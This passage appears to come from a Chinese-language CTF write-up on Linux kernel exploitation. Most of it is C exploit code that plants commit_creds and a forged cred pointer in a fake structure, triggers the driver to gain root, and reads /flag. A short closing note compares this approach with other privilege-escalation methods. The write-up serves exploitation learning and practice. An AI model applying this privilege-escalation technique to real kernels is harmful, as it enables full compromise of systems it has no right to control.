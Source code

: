 ```c
    printf("[+] kernel_addr: 0x%lx\n", kernel_addr);
    printf("[+] commit_creds: 0x%lx\n", commit_creds);

    r.id = 1;
    memset(recvbuf, 0, 0x10000);
    uint64_t *ptr = (uint64_t *)(recvbuf + 0x90);
    ptr[0] = 4;
    ptr[1] = 0;
    ptr[2] = 0;
    ptr[3] = 0;
    ptr[4] = 0;
    ptr[5] = commit_creds;

    ptr[6] = 0x1FFFFFFFFF;
    ptr[7] = 0x1FFFFFFFFF;
    ptr[8] = 0x1FFFFFFFFF;

    ptr[15] = slub_addr;
    // ptr[16] = 0xffffffff8284ef80;
    // ptr[17] = 0xffffffff8284f020;
    ptr[17] = commit_creds - 0xffffffff8109bcf0 + 0xffffffff8284f020;
    // ptr[18] = 0xffffffff82850e20;
    // ptr[19] = 0xffffffff82850610;
    Update(fd, &r);

    // getchar();
    r.id = 2;
    Run(fd, &r);    // trigger encryption, get root.

    
    printf("[+] Current UID: %d\n", getuid());
    if (getuid()==0){
        printf("[+] Root now!!!\n");
        getchar();
        char buf2[0x10] = "/flag";
        int tmpfd = open(buf2, O_RDONLY);
        if(tmpfd<0){
            printf("[-] Open error...");
            exit(0);
        }
        read(tmpfd, buf, 0x40);
        write(1, buf, 0x40);
    }

    return;
}

```

其实实在不行将 `ptr[17]` 指在堆上，并在对应伪造按照 `init_cred` 原封不动伪造也行。一路做下来反而感觉剩下三种提权的方法更容易，应该也更稳定。没有查到任何伪造 `init_cred` 的资料，以后还是少伪造这个吧...暂时也没精力去做细致一点的源码分析看看 `cred` 结构体这个值到底是什么了...有空再看看。
